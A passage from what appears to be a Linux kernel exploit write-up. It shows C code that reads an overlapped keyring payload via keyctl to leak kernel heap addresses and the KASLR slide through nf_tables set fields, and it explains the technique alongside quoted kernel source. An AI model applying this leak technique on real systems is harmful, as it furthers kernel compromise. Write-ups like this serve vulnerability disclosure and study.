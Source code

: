 - [exploit/extra-refined/exploit.c#L1101](../exploit/extra-refined/exploit.c#L1101)
```c
// and check overlap for kernel heap leak + KASLR leak
int key1;
char *key_buf = malloc(0x10000);
memset(key_buf, 0, sizeof(key_buf));
ret = keyctl(KEYCTL_READ, key, key_buf, 0x10000, 0);
if (ret < 0)
	perror("keyctl");
uintptr_t *payload = key_buf;
// for(int i = 0; i < 0x20; i++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }

uintptr_t kaslr_slide = payload[0x15] - curr_gadget->nft_set_ops_offset;
printf("[+] kaslr_slide : %p\n", kaslr_slide);

// address of struct nft_set (overlapping with struct user_key_payload)
uintptr_t nft_set_addr = payload[0] - 0x10; // binding.prev
printf("[+] nft_set addr : %p\n", nft_set_addr);
```
Because of the useful fields of `struct nft_set`, we didn't need to search for other objects or craft additional primitives. We can leak necessary information directly by reading the overlapped `struct user_key_payload` with `keyctl` syscall.

The following fields are overwritten or leaked and used for further exploit steps.
- The `datalen` field of `struct user_key_payload` is overwritten by `bindings.next` field of `struct nft_set`, which is the kernel pointer and large enough to read the key payload as we want.
- The list entries such as `bindings` or `catchall_list` contains the pointer that points itself. We utilized the `bindings.next` fields to leak the own chunk address (from `kmalloc-1k`).
- The `ops` holds a per-set type vtable pointer, which is located in the kernel data section. This can be utilized for KASLR leak.

![cos_1](./img/cos_1.png)

- [security/keys/user_defined.c:user_read()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/user_defined.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n171)
```c
long user_read(const struct key *key, char *buffer, size_t buflen)
{
	const struct user_key_payload *upayload;
	long ret;

	upayload = user_key_payload_locked(key);
	ret = upayload->datalen;

	/* we can return the data as is */
	if (buffer && buflen > 0) {
		if (buflen > upayload->datalen)
			buflen = upayload->datalen;

		memcpy(buffer, upayload->data, buflen);
	}

	return ret;
}
```
- [security/keys/keyctl.c:keyctl_read_key()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/keyctl.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n825)
```c
long keyctl_read_key(key_serial_t keyid, char __user *buffer, size_t buflen)
{
// ...
```